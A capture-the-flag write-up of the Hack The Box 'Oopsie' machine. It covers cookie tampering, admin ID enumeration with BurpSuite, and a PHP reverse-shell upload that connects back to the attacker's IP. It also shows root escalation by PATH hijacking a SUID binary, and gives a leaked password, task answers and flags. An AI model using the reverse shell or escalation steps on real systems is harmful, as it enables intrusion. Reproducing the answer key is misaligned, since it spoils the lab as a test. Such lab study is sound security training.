# Machine Name
Oopsie is a very easy linux machine on Hack The Box Starting Point Tier 1 that focuses on privilege escalation by altering website cookies and by overwriting the linux path environment variable.

## Task 1
**With what kind of tool can intercept web traffic?**
> proxy

## Task 2
**What is the path to the directory on the webserver that returns a login page?**
> /cdn-cgi/login

We can use BurpSuite to get a site-map for our target website. Looking at the site-map, we see that there is a url to `/cdn-cgi/login/script.js`:



We navigate to the login page `http://{TARGET IP}/cdn-cgi/login`:



## Task 3
**What can be modified in Firefox to get access to the upload page?**
> cookie

We login as guest and click the Upload tab at the top of the webpage. We see that we need super admin rights to access the upload page:



We go to the Proxy Tab and then Intercept Tab in BurpSuite. Then we turn intercept on visit the upload page again. We see that the website makes an HTTP Request with `user` and `role` cookies:



## Task 4
**What is the access ID of the admin user?**
> 34322

The account page shows the current user:


We go to the Proxy Tab and then Intercept Tab in BurpSuite. Then we turn intercept on and visit the account page on the target website while logged in as the guest user:



Next we send the intercepted HTTP Request in BurpSuite to the Intruder. On the positions tab, we set the attack type to `Sniper` and set the payload to id:



On the payload tabs, we set the Payloads type to `Numbers`:


On the settings tab, we set Grep - Match to `admin`:



After starting the attack, we see that an id of `1` one gives us the admin account page:



Lastly, we navigate to `http://{TARGET IP}cdn-cgi/login/admin.php?content=accounts&id=1` and see that the admin access ID is 34322:



## Task 5
**On uploading a file, what directory does that file appear in on the server?**
> /uploads

Next we go to the upload tab on the target website and change the cookies to `34322` and `admin`:



We see that we can upload files now:



We make a file called `test.txt` and upload it. Next we use gobuster to search for the folder that our uploaded file is in:



## Task 6
**What is the file that contains the password that is shared with the robert user?**
> db.php

We make a `shell.php` file on our own computer:

```php
<?php

$sock=fsockopen("{OUR IP}",12345);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);

?>
```

Next open a netcat listener on our computer. Next we upload the `shell.php` to the target website and visit `http://{TARGET IP}/uploads/shell.php`:



In our reverse shell, we search `the /var/www/html` directory for files containing the word robert. The only file containing the word robert is `cdn-cgi/login/db.php`:




## Task 7
**What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?**
> find

We run the bash find command to find the only file owned by the bugtracker group is `/usr/bin/bugtracker`:

```bash
find / -group bugtracker 2>/dev/null
```

## Task 8
**Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?**
> root

We can use stat to check the privileges of the `/usr/bin/bugtracker` file:



## Task 9
**What SUID stands for?**
> Set owner User ID

## Task 10
**What is the name of the executable being called in an insecure manner?**
> cat

We try to run the `/usr/bin/bugtracker` executable but can't. We get a terminal and login as robert with `M3g4C0rpUs3r!` the password we found earlier"



Now we can run the `/usr/bin/bugtracker` executable. We give an ID of 500. The executable then throws an error because the `cat` command cannot find a file named `/roots/report/500`:



## User Flag
> f2c74ee8db7983851ab2a96a44eb7981



## Root Flag
> af13b0bee69f8a877c3faf667f7beacf

The executable for the `cat` command is stored at `/bin/cat`. We have privileges in the `/tmp` directory. In the `/tmp` directory, we make a new executable `cat` with the contents `/bin/sh`. Then we modify the path variable. Now the executable for the `cat` command is the file that we wrote:



We can execute the `cat` command and any following command will be executed by our bash shell as the root user:


